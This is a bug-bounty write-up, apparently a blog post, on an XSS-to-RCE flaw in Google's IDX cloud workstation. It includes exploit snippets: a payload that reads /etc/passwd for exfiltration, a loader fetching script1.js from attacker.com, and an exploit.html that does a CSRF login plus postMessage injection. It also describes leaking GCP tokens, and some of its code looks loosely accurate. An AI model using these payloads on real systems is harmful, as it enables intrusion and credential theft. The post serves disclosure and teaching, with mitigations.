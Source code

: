 ```yaml
---
title: "XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned 💰"
layout: post
tags: [Google, ProjectIDX, FirebaseStudio, XSS, RCE, security, pentesting, red-team, web-security, JavaScript, exploit, hacking, cybersecurity, GCP, bugbounty, XSS to RCE in Google IDX Workstation: A Technical Deep Dive]
image: /assets/images/xssrce.png
category: security
---
```



# XSS to RCE in Google IDX Workstation: A Technical Deep Dive

Hey there, I'm someone who loves digging into security vulnerabilities like this. Cloud-based development environments like Google's Project IDX (now integrated into Firebase Studio) make life easier for developers, but they also come with some intriguing security risks. Discovered in September 2025, this XSS vulnerability escalates to Remote Code Execution (RCE), potentially leaking Google Cloud Platform (GCP) tokens. Found by Aditya Sunny from NullSecurityX, it earned a $22,500 bounty from Google's Vulnerability Reward Program. Let's dive into the technical details together, examining code snippets and how the exploit works. I'll keep it natural, like we're chatting over coffee, but with solid technical depth.

## The Basics of IDX Workstation

First off, a quick rundown on what IDX Workstation is. It's a browser-based cloud IDE built on the open-source version of Visual Studio Code (Code OSS). It runs on subdomains like `*.cloudworkstations.dev` or `*.cloudworkstations.googleusercontent.com`. Features include code editing, terminal access, extensions from the Open VSX Registry, web previews, and even Android emulators. From a security standpoint, iframe and web worker communications are key, relying on things like the postMessage API. If origin validation is weak, things can go south quickly.

## The Root Cause: Weakness in the postMessage Handler

The heart of the vulnerability is in the `webWorkerExtensionHostIframe.html` file. This iframe manages web worker extension hosts and loads on the same origin as the main UI, making same-origin policy (SOP) breaches possible if not secured properly.

Here's the vulnerable code snippet:

```javascript
const parentOrigin = searchParams.get('parentOrigin') || window.origin;
self.onmessage = (event) => {
  if (event.origin !== parentOrigin) return;
  worker.postMessage(event.data, event.ports);
}
```

Let's break this down line by line, as this is where it all starts.

- **const parentOrigin = searchParams.get('parentOrigin') || window.origin;**  
  This is the problematic part. The `parentOrigin` value comes from URL query parameters (e.g., `?parentOrigin=malicious.com`). If missing, it defaults to `window.origin`. Why is this bad? It's user-controllable – an attacker can manipulate the URL to insert their own domain, bypassing restrictions. In a secure design, origins should be hardcoded or whitelisted, not pulled from untrusted sources like query params. This goes against the principle of least privilege.

- **self.onmessage = (event) => {**  
  A simple message listener, catching events from the parent window.

- **if (event.origin !== parentOrigin) return;**  
  It checks if the message's origin matches `parentOrigin`. If not, it drops the message. But since `parentOrigin` is manipulable, this check is useless. An attacker can set it to their exploit domain and slip messages through. A better approach would use a fixed whitelist: `if (event.origin !== 'https://trusted.google.domain')`. It also misses edge cases like sandboxed iframes or null origins.

- **worker.postMessage(event.data, event.ports);**  
  Forwards the message to the worker. This is key because binary data (like ArrayBuffers) gets hex-encoded and passed along. This allows XSS payloads to inject into the worker context. Once injected, the code runs with the workstation's privileges – file system access, terminal commands, you name it.

This flaw reminds me of similar issues in GitLab's Web IDE, where poor iframe isolation turns XSS into RCE.

## The Exploit Chain: Step by Step

To exploit this, you need the victim's subdomain – often leaked via Referer headers or DNS queries. The chain combines XSS, CSRF, and postMessage manipulation. Let's walk through it with code examples.

1. **Subdomain Discovery:**  
   The victim shares a preview link: `9000-[victim-subdomain].cloudworkstations.dev`. The attacker strips the `9000-` prefix to get the base subdomain.

2. **Attacker Setup:**  
   The attacker creates their own workstation and notes the subdomain.

3. **Payload Preparation:**  
   - **script1.js:** The main RCE payload. Example:  
     ```javascript
     const fs = require('fs'); // Assuming Node-like access in the worker
     fs.readFile('/etc/passwd', (err, data) => {
       if (err) throw err;
       console.log(data.toString()); // Exfiltrate to the attacker
     });
     ```  
   - **script2.js:** References script1.js.  
     ```javascript
     const script = document.createElement('script');
     script.src = 'https://attacker.com/script1.js'; // Victim domain variant
     document.body.appendChild(script);
     ```  
   - **xss.ipynb:** A Jupyter notebook referencing script2.js (exploits notebook rendering for injection).

4. **Uploading and Hosting:**  
   Upload xss.ipynb to the attacker's workstation. Host exploit.html (e.g., via ngrok):  
   ```html
   <!DOCTYPE html>
   <html>
   <body>
   <script>
     const victimDomain = '[victim-subdomain].cloudworkstations.dev';
     const attackerDomain = '[attacker-subdomain].cloudworkstations.googleusercontent.com';
     // CSRF to log into attacker's workstation
     fetch(`${attackerDomain}/login`, { method: 'POST', credentials: 'include' });
     // Iframe and postMessage injection
     const iframe = document.createElement('iframe');
     iframe.src = `${victimDomain}/?parentOrigin=${window.origin}`;
     document.body.appendChild(iframe);
     iframe.onload = () => {
       iframe.contentWindow.postMessage({ malicious: 'payload' }, '*');
     };
   </script>
   </body>
   </html>
   ```

5. **Victim Interaction:**  
   The victim clicks the exploit.html link. It triggers CSRF login, loads the iframe, and injects the payload via postMessage.

6. **Achieving RCE:**  
   The injected JS accesses the file system – for example, running `gcloud auth print-access-token` to leak tokens. Data gets exfiltrated to the attacker's server.

This chain shows how a client-side flaw can lead to server-side dominance in cloud IDEs.

## Impacts and Risks

- **RCE:** Full control over the victim's cloud instance – running commands, manipulating files.  
- **Token Leakage:** GCP tokens (with cloud-platform scope) grant access to services like Compute Engine and Storage.  
- **Lateral Movement:** In team settings, compromising one workstation could spread to others.

## Patch and Mitigations

Google patched it by moving the iframe to a separate origin, strengthening cross-origin barriers. At the code level, fixes could look like this:  

```javascript
const ALLOWED_ORIGINS = ['https://*.cloudworkstations.googleusercontent.com'];
if (!ALLOWED_ORIGINS.includes(event.origin)) return;
```

Also, add `sandbox="allow-scripts"` to iframes, apply CSP: `script-src 'self'; frame-ancestors 'none';`. Broader tips: Encrypt DNS, use Referrer-Policy: no-referrer, and monitor subdomains.

## Final Thoughts

Vulnerabilities like this highlight the double-edged sword of web-based IDEs – convenience meets risk when client-side security ties directly to cloud resources. Always prioritize origin validation in APIs like postMessage. Programs like Google's VRP keep researchers motivated to find these. If you're tinkering with similar stuff, stay vigilant – a small parameter can lead to big trouble. Thanks for reading; if you have questions or thoughts, drop them in the comments below!

## Video Demonstration

For a visual walkthrough of the exploit, check out this demo video from the original disclosure:

<blockquote class="twitter-tweet">
  <p lang="tr" dir="ltr">...</p>
  &mdash; Kullanıcı (@username)
  <a href="https://x.com/i/status/1965327615277027446">Time</a>
</blockquote>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>



<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->
